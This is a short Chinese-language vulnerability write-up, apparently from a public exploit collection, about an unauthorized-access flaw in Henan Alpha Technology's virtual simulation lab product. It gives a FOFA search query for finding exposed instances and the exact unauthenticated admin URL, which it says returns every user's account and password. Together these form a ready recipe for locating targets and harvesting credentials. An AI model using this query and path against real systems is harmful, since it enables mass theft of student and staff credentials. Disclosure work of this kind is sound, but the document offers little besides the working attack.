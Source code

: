 # 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 虚拟仿真实验室

## FOFA

> [!NOTE]
>
> body="河南阿尔法科技有限公司"

## 漏洞复现

未授权的Url为

```
/admin/student/studentlist.html?page=1 
```

![](image/xn-1.png)

成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/